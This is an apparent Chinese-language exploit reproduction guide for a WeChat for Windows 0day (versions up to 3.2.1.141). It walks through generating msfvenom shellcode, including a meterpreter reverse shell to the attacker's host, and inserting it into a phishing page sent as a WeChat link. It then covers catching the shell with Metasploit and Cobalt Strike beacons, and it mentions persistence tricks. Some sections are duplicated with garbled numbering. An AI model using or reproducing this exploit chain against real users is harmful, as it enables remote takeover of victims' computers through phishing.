# WeChat 0day

## 漏洞介绍

攻击者可以通过在网页js插入攻击代码，用户一旦点击链接，Windows版微信便会加载执行攻击者构造恶意代码，最终使攻击者控制用户PC。攻击者可以利用此漏洞执行任意代码，控制用户PC，存在极大的危害。

## 影响范围

Windows版微信: 小于等于3.2.1.141版本

## 漏洞复现过程

测试环境：

靶机

IP：192.168.43.130

Windows 10 x64

微信 3.2.1.134

其他版本不确定是否可以，请自测。

[微信历史版本下载](http://www.mydown.com/soft/103/473305603.shtml)

攻击机

IP：192.168.43.232

MacBookPro MacOS Big Sur 版本 11.2.3

Cobalt Strike 4.2

## 1. 执行系统命令

### 1.1 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*(这里说明一下，如下图，微信进程wechatweb.exe默认关闭沙盒，Chrome版本是53.0.2875.166，运行在x86架构上，故生成payload时须指定为x86架构)*



### 1.2 制作html钓鱼文件

将生成的代码放入WeChat.js中shellcode[]中。



在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功执行计算器命令。

http://192.168.43.232/WeChat.html




## 2. 利用Metasploit反弹shell

### 2.1 shellcode生成命令：

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.232 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c```

**注意：LHOST要和自己本机ip保持一致，LPORT要和接下来监听的端口也保持一致**

将生成的payload.c文件中全部内容填入WeChat.js中shellcode[]里。



### 2.2 msfconsole监听

执行命令：

```
msfconsole

msf6>use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.43.232

msf6 exploit(multi/handler) > set LPORT 5555

msf6 exploit(multi/handler) > run

```

### 2.3 反弹shell

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。

http://192.168.43.232/WeChat.html





## 3. 利用Cobalt Strike 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```



出现以上页面说明启动成功。

**2.1.2 启动客户端：**

### 

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```


出现以上页面说明启动成功。

**2.1.2 启动客户端：**


**2.1.3 启动监听器：**



### 2.2 Cobalt Strike生成payload

**2.2.1 按照以下步骤生成payload.c文件，注意这里不勾选x64，因为微信进程试运行在x86架构上的。**





**2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。**



**2.2.3 将引号里的代码复制到WeChat.js文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。**




**2.2.4 将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。**

**http://192.168.43.232/WeChat.html**



**2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。



## 写在最后

都说这个漏洞比较鸡肋，必须保证微信内置浏览器一直打开状态才不会掉线，如果把它关闭就会直接掉线。不过看到大佬写得一篇博客：“关于微信内置浏览器 达到持久控制”，可以解决上述问题：

1*. 加载自定义 malleable C2 配置文件 从而达到主机一上线跳默认为 1 秒，就可自动在目标打开浏览器短暂的时间里尽快转移进程*

*2. 加载一个 Cobalt Strike automigrate 自动迁移进程的插件从而达到目标上线后会话自动迁移到其他进程从而我们就可以脱离微信浏览器的束缚。*

由于文章可能比较敏感，该篇博客已被删除，幸好我留了一手，保存了网页，具体的操作可以参考我保存的网页，下载到本地用浏览器打开"关于微信内置浏览器 达到持久控制 _ Liqun.html"，即可看到，我试了一下，没成功，感兴趣的朋友可以尝试一下。


**至此WeChat-0day复现完成，仅供参考，严禁非法破坏他人系统，严格遵守《中华人民共和国网络安全法》，如有违反，后果自负，与作者无关。**

